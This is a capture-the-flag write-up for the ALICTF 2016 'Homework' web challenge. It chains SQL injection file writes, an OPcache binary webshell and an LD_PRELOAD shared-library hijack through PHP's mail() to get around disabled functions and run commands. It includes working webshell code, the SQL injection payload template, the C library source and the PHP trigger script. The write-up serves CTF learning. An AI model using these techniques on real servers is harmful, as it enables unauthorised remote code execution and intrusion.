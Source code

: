 ```yaml
---
layout: post
title: Homework
category: ALICTF 2016
---
```


### Description
It's time to submit your homework.
But I'm sure the teacher is too busy to check your homework.

---

### The Challenge
This has been a very fun challenge for our team as it consisted of multiple exploitation techniques leading to RCE.

This is a big writeup, if ever there are some details that are missing, feel free to check the writeup of my teammate [here](https://github.com/tothi/ctfs/tree/master/alictf-2016/homework).

The first steps required us to register and login. Both these steps required us to enter a captcha, which we can bruteforce with a simple Python script.

![login](/assets/img/alictf-2016/login.png)

These types of captchas are fairly common in CTFs, so we already had a script ready :

``` python
#!/usr/bin/env python2

import hashlib
import string
import random
import sys

charset = string.ascii_uppercase + string.digits

while True:
  tmp = ''.join(random.choice(charset) for _ in range(6))
  tmpHash = hashlib.md5(tmp.encode()).hexdigest()
  if tmpHash[0:4] == sys.argv[1]:
    print ("[*] Solved by " + tmp)

```
---

Once we log in, we can start playing around with the website. The website consisted of three features. We can :

- Upload our homework with a brief description
- View the uploaded file
- View the description of our previously uploaded homework

![main_page](/assets/img/alictf-2016/upload_form1.png)
![upload_success](/assets/img/alictf-2016/upload_success.png)


The first thing we had in mind was to upload a PHP file directly through the upload functionality. Uploading a `payload.php` file worked, but navigating to it renders a page with the overwritten text `bad man`.

Moving on to the description viewer functionality of the website, we noticed an SQL injectable parameter in the URL :

![detail_view_sqli_poc](/assets/img/alictf-2016/detail_view_sqli_poc.png)

The parameter wasn't filtered at all, which gave us free reign to query whatever we wanted.
We could dump some system files, depending on what permissions were set on the filesystem.

![detail_view_sqli_loadfile](/assets/img/alictf-2016/detail_view_sqli_loadfile.png)

The source code folders were hardened, so not much we could do there.
We then moved on to dumping all of the available tables, unfortunately there wasn't anything interesting there either.

---

After much hours of struggling, we discovered 2 files that were publicly available on the website : `phpinfo.php` and `readme.html`.

##### phpinfo.php

This page gave us the classic output of a `phpinfo()` function call. Browsing through it quickly, we noticed that PHP 7.0's OPcache feature was enabled with the appropriate settings to run the exploitation technique presented in this [article](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

![phpinfo](/assets/img/alictf-2016/phpinfo_opcache.png)

From this page, we have all the information we need to try this attack vector :

- File cache location `/tmp/OPcache`
- Document root `/var/www/html`
- `System ID`

In order for this exploitation technique to work though, we needed an unrestricted file upload vulnerability on the website through the `www-data` user, which wasn't the case here.
Which brings us to the `readme.html` file.

##### readme.html

![readme](/assets/img/alictf-2016/readme.png)

This file guides us through the installation of a plugin of some sort. Though the contents of the file is mostly irrelivent, there is one dangerous line that could make things much simpler for us : `chmod 777 -R ./`.
Because of this line, the `/tmp` as well as all of its underlying folders have `777` permissions. Which means we no longer require the `www-data` user to do unrestricted file upload.

We can go through the SQL injection vulnerability and upload files using the `INTO DUMPFILE [filename]` keywords!

---

At this point, we must understand that the `INTO DUMPFILE [filename]` keywords require us to specify a non-existant file.
Therefore, we can't overwrite existing OPcache files. We need to inject an OPcache file for a PHP script that has not been called yet.
This is where the homework upload functionality from earlier comes in. Since we can upload any file/extension we want, we can leverage that as the "PHP script that has not been called yet".

From all the information we've gathered so far, we should be able to make this attack vector work. These are the steps we had to do to get a working PHP script :

  1. Create our PHP webshell `<?php system($_GET['cmd']) ?>`
  2. Compile it into an OPcache file `payload.php.bin`
  3. Modify the `System ID` of `payload.php.bin` to match the server's `System ID`
  4. Get the hex dump of our payload. I used `cat payload.php.bin | hex`
  5. Upload a file with the name `payload.php`.
  6. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-payload.php`).
  7. Upload the OPcache file at the appropriate location through SQL injection
  8. Navigate to the uploaded file.

Here is the SQL injection used on the ID parameter to upload the OPcache file :

    -1' SELECT X'[OPCACHE PAYLOAD HEXDUMP]' INTO DUMPFILE '/tmp/[SYSTEM ID]/var/www/html/[PATH OF UPLOADED FILE].bin #

---

Going through all the steps, we managed to get our PHP file to execute. This is when we encountered a new problem. Most of the functions are blocked!

![restrictions](/assets/img/alictf-2016/phpinfo_restrictions.png)

Basically, we have a working PHP script, but no way to execute shell commands.

Going through the `phpinfo` file again, we've noticed that `sendmail` is enabled.

![sendmail](/assets/img/alictf-2016/phpinfo_sendmail.png)

Doing some research on PHP and `sendmail`, we can see that PHP's `mail()` function executes the `sendmail` binary internally. Knowing this, we've concluded that we have to use the `LD_PRELOAD` trick to inject our own code and get a webshell. You can find out more about it [here](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).

Basically, through PHP's `putenv` function, we can specify the path to a malicious shared library in the `LD_PRELOAD` environment variable.

When a file is executed, the file specified in the `LD_PRELOAD` variable will be loaded before any other library. Which gives us the oppurtunity to overwrite standard library functions and run our own code.

In this case, we have to create a library containing a function that we know is being called by `sendmail`. We'll override the `geteuid()` function. Here is our code :

``` c
/* compile: gcc -Wall -fPIC -shared -o evil.so evil.c -ldl */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(char *cmd) {
  char buf[512];
  strcpy(buf, cmd);
  strcat(buf, " > /tmp/_0utput.txt");
  system(buf);
}

int  geteuid() {
  char *cmd;
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  if ((cmd = getenv("_evilcmd")) != NULL) {
    payload(cmd);
  }
  return 1;
}
```

The script above will run the command specified in the `_evilcmd` environment variable, and send the output to a temporary file that we can read.

Here is the PHP script that we'll use to trigger the evil library.

``` php
<?php
  $cmd = $_GET['cmd'];

  echo putenv("LD_PRELOAD=/var/www/html/upload/XXXXXXXXXXXX-evil.so");
  echo putenv("_evilcmd=".$_GET['cmd']);
  echo mail("a@example.com", "a", "a");
  show_source("/tmp/_0utput.txt");
?>
```

Finally :

1. Compile the `evil.so` library
2. Upload it through the upload functionality of the website
3. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-evil.so`)
4. Modify the PHP script with the correct `evil.so` path.
5. Use the OPcache exploit technique from earlier to get a working PHP script on the server.
6. Navigate to the PHP script with the `cmd=echo ok` URL parameter.

![cmd_interface_test](/assets/img/alictf-2016/cmd_interface_test.png)

At this point, it's just a matter of finding the flag. Some common commands like `ls` and `cat` are restricted which makes this last step harder.
Here are the commands we used to bypass the restrictions :

`ls => printf '%s\n' /*`
`cat => tac`

![cmd_interface_ls](/assets/img/alictf-2016/cmd_interface_ls.png)
![cmd_interface_flag](/assets/img/alictf-2016/cmd_interface_flag.png)

**Flag :** alictf{nk2csizy7od2feyt5un4mx7s891gilf4}

